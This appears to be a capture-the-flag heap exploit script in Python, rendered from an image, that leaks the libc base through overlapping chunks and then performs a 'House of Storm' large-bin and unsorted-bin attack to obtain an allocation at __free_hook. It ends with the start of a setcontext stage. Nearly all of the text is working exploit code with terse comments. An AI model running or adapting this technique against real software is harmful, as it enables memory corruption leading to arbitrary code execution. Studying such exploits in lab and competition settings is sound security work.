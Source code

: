 ```python
add(0x500)  #0
add(0x88)   #1
add(0x88)   #2

delete(0)
add(0x18)   #0
edit(0,"A"*0x18)
add(0x88)   #3
add(0x88)   #4 
delete(3)
delete(1)

add(0x2d8)  #1  back of idx0 in unsorted bin
add(0x88)   #3  == old idx3
add(0x48)   #5  == old idx4
delete(4)
view(5)
base = u64(p.readline()[:-1].ljust(8,'\x00')) - 88 - 0x3c4b20
libc.address = base
log.warning(hex(base))
add(0x458 + 0x90) #4 == 0x510 + 0x90 - 0x20 - 0x90

#House of Storm
storage = libc.sym['__free_hook']
fake_chunk = storage - 0x20

add(0x500)  #6
add(0x88)   #7
add(0x88)   #8
delete(6)
add(0x18)   #6
edit(6,"A"*0x18)
add(0x88)   #9
add(0x88)   #10
delete(9)
delete(7)
add(0x2d8)  #7 trash
add(0x78)   #9 == old idx 9
add(0x48)   #11 == idx10 - 0x10
add(0x4a9)  #12 unsorted bin to large bin

payload = flat([
    p64(0)*6,
    p64(0),
    p64(0x4a1),
    p64(0),
    p64(storage-0x20+8)+p64(0)+p64(storage-0x20-0x18-5)
])
edit(10, payload)   #edit the head of largebinchunk

payload = flat([
    p64(0),
    p64(0x21),
    p64(0x21)*6
])
edit(11, payload)   #idx10->size = 0x21

delete(10)  #idx10 into unsorted bin
edit(11,p64(0)+p64(0x4b1)+p64(0)+p64(fake_chunk))#edit idx 10 the head and bk in unsorted bin
add(0x48)   #10 __free_hook - 0x20

#setcontext
new_execve_env = libc.sym['__free_hook'] & 0xfffffffffffff000
```